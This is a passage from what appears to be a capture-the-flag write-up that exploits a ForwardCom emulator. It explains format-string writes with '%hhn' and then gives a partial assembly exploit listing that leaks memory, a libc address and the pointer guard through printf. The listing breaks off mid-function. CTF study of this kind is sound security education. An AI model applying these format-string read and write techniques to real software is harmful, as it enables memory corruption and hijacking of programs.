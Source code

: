 Now we need write it into memory. To do that, we implemented a `_write` function which uses `_printf` with `"%hhn"` to write the source bytes at the destintation address, byte for byte.

The last is to return from the main function of our program so that the emulator exits and the exit functions are executed. Watch out to return `0` in `r0` or else the output is not printed ont the website. Alternatively, one could use `_exit` (a ForwardCom syscall, not to confuse with libcs symbol `_exit`) which effectively does the same thing.

## Full exploit code

```asm
extern _printf: function

const section read ip // read-only data section
fmt_leak_str: int8 "%*c", 0
print_hex: int8 "||%#lx||\n ", 0
write_1_byte: int8 "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA%hhn",0
clear_byte: int8 "%hhn",0
newline: int8 "\n ",0
const end

bss section datap uninitialized // read-write data section
int64 parlist[5]
int8 libc_addr[8]
int8 tmp_mem[0x18]
int8 pointer_guard[9]
bss end

code section execute // executable code section

_leak function public
// r0: src (pointer to start of the leak)
// r1: dst (where to write the leaked bytes)
// r2: length of the leak (excluding the leading byte which will not be leaked)

// assumes that *(int8_t *)(src + length) >= 0
// for simplicity: length % 3 == 0, length >= 3

// interal register assignment
// r16: remaining length
// r17: current pointer to leak
// r18: current dst pointer
// r19: is negative mask

int64 r16 = r2
int64 r17 = r0 + r2 - 3
int64 r18 = r1 + r2 - 3
int64 r19 = 0

do {
    // leak bytes
    int64 r0 = address([fmt_leak_str])
    int64 r1 = r17
    call _printf

    // apply is_negative_mask: r0 = (r >> 24) >= 0 ? r0 : (-r0)
    // because we are lazy and don't want to use a conditional, we use the folliwng equivalent expression:
    // r0 = (r >> 24) >= 0 ? r0 : ((r0 ^ r19) - r19)
    int32 r0 = r0 ^ r19 // invert if negaitve
    int32 r0 = r0 - r19 // + 1 iff negative
    int32 r0 = r0 & 0xFFFFFF // we are only interested in the lower 3B
```